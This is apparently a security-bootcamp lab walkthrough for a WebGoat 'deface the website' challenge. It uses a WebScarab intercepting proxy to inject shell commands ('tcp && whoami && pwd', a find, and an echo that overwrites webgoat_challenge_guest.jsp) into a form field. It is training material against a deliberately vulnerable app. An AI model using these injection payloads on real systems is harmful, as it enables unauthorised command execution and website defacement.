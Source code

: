 #### Challenge #3

Your third and final mission is no easy feat. Your final act is to deface the website. This requires multiple skill sets, all of which you’ve learned and will need for this final act.
Two clues:

- **Hint 1**: You will need to use command injection.

- **Hint 2**: You will need to locate the `webgoat_challenge_guest.jsp` file and inject it with code in order to deface the website.

There are 2 pages displayed on the challenge, `Original Website Text` and `Defaced Website Test`. The main goal is to see the information in the `Defaced Website` area.

``` 

In Kali Linux , search for an Application called webscarab and run it.

Start Foxy Proxy to send all GET/POST requests from Firefox to the WebScarab proxy intercept.

Set the WebScarab App to intercept POST request.
   - Select `Proxy tab` and click the checkbox titled `Intercept requests` (POST and GET)

Start the FoxyProxy > Select `WebScarab`> Tap on `tcp` and Click on `View Network` 

Under URLEnccoded > Change the value to `tcp && whoami && pwd` to test simple command injection. It should return a value of the current directory if working.

-	`/var/lib` is the result of  `whoami` command
-	`/tomcat6` is the result of `pwd` command
-  `/var/lib/tomcat6` is our current working directory.

Under URLEnccoded > Change the value to `tcp && cd / && find . -iname webgoat_challenge_guest.jsp` to know the absolute path of webgoat_challenge_guest.jsp
   - The absolute path is : ./owaspbwa/owaspbwa-svn/var/lib/tomcat6/webapps/WebGoat/webgoat_challenge_guest.jsp.
   - Therefore, the relative path is webapps/WebGoat/webgoat_challenge_guest.jsp.

Under URLEnccoded > Change the value to `tcp && cd webapps/WebGoat && echo you_have_been_hacked > webgoat_challenge_guest.jsp` to inject a text message and deface the website.
   - After clicking "Accept Changes", the Defaced Website section should show the text message that we modified in `webgoat_challenge_guest.jsp`  **"you_have_been_hacked"**

```
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  

